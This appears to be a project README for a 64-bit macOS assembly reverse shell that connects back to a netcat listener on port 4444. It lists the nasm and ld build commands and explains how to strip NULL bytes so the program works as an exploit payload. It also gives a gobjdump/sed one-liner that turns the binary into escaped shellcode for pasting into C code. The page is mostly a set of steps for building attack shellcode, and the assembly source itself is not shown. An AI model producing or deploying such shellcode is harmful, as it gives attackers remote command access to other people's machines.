 reverse_shell
=============

program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.

It is written for mac osx 64 bit

Usage:
  Start a listening server with the command: nc -l 4444 in another folder for example your home directory

  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  run ./reverse_shell
  
  Go back to the terminal that you started nc in and type ls, you should now see a directory listing of the directory you started
  reverse_shell in.
  
To use the code as a payload, one need to remove the NULL values, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. See the code for two example on how to change the mov instruction

To convert the binary to string values that can be used as a payload use
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple paste -d'\0' -s dump.txt will combine all rows into one that can then be copied into the C file.
  
  
